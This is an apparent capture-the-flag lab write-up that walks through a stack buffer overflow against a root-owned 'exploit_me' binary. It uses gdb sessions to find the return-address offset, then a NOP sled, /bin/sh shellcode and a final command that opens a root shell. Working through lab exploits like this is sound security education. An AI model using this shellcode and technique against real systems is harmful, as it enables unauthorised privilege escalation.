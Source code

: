 ###Buffer Overflow to Run Root Shell in zaz
Once we get in zaz we are left with a folder and a executable owned by root
with ghidra we find out that the main function is using strstr with a buffer of 140 which are the perfect ingredients to attempt a buffer overflow and run a root shell.

![alt text](.git/Buffer_overflow_basicexample.png)

1. Write past array buffer ending.
2. Find where we want our address to return to (somewhere in the NOP region).
3. Overwrite return address at EIP with our address.
4. Don’t write past EIP!

![alt text](.git/hacked_stack.png)


We have to find how much buffer we got before we run into the eip for that we will first find the point in which we start overriding it


If we print exacly the buffer size 140 we get 0xb7e45400 as the eip
```
zaz@BornToSecHackMe:~$ gdb -q --args ./exploit_me `python -c 'print "A"*140'`
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/zaz/exploit_me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGILL, Illegal instruction.
0xb7e45400 in __libc_start_main () from /lib/i386-linux-gnu/libc.so.6
(gdb) info reg eip
eip            0xb7e45400	0xb7e45400 <__libc_start_main+32>
(gdb) 

```

But if then we go up with 141 we get 0xb7e40041 as the eip, as you can see it changed and now it displays a 41 at the end, that 41 is the hexadecimal value of the A character we are using to overflow the buffer, that means that is starting to write on it.

```
zaz@BornToSecHackMe:~$ gdb -q --args ./exploit_me `python -c 'print "A"*141'`
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/zaz/exploit_me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb7e40041 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb)
```

So if we go up to 144 we completely fill up the direction. 

```
zaz@BornToSecHackMe:~$ gdb -q --args ./exploit_me `python -c 'print "A"*144'`
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/zaz/exploit_me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info reg eip
eip            0x41414141	0x41414141
(gdb) 
```

Once we are here if we replace the last 4 letters to "BCDE" (42 43 44 45 in hexadecimal) we can see that the eip value gets to be 0x45444342 so that let us make sure that right there we have the limit we dont want to surpass when doing the overflow attack.


```
zaz@BornToSecHackMe:~$ gdb -q --args ./exploit_me `python -c 'print "A"*140 + "BCDE"'`
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/zaz/exploit_me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDE
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDE

Program received signal SIGSEGV, Segmentation fault.
0x45444342 in ?? ()
(gdb
```

What we are going to do next is to use the gdb command  x/32x $esp which is a command that displays 32 words at the top of the stack in hex 
and we will use it to look for the memory directions we need.
If we look around we will find all the 41's in the memory that come from our printing 'A' command, so now we know that, that is the buffer and the space we have to work in.
We will keep the memory address of the begining of the buffer 0xbffff7c0 as we will use it as our return address.

```
0xbffff750:	0x000003ed	0x0000000e	0x000003ed	0x00000017
0xbffff760:	0x00000001	0x00000019	0xbffff78b	0x0000001f
0xbffff770:	0xbfffffe7	0x0000000f	0xbffff79b	0x00000000
0xbffff780:	0x00000000	0x00000000	0x12000000	0xe5895422
0xbffff790:	0x7d873afa	0x01ca55fb	0x697698fb	0x00363836
0xbffff7a0:	0x00000000	0x00000000	0x682f0000	0x2f656d6f
0xbffff7b0:	0x2f7a617a	0x6c707865	0x5f74696f	0x4100656d
0xbffff7c0:	0x41414141	0x41414141	0x41414141	0x41414141
(gdb) 
0xbffff7d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff800:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff810:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff820:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff830:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff840:	0x41414141	0x41414141	0x42414141	0x00454443
(gdb) 
0xbffff850:	0x505f434c	0x52455041	0x5f72663d	0x552e5246
0xbffff860:	0x382d4654	0x5f434c00	0x52444441	0x3d535345
0xbffff870:	0x465f7266	0x54552e52	0x00382d46	0x4d5f434c

```

What we will use to execute the shell is a shellcode

"\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"

This string contains the assembly code necesary to execute /bin/sh

Now we just need to measure the size of the shellcode we are going to use which is 53.


we can simply use python and do len("\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")

Then we do some simple math, the buffer is 140 and the shell is 53 --> 140 - 53 = 87
So then the NOP slide is going to be of the size of 87 so that the shell gets in the proper spot.
It will look something like this

```
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print "\x90"*87 + "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xd0\xf7\xff\xbf"'`
���������������������������������������������������������������������������������������1�1۰̀�^�1��F�F
                                                                                                    �
                                                                                                     ���V
                                                                                                         1ۉ�@̀�����/bin/sh����
# whoami
root
# 

```

And there you go! we just got to open a shell with root!!
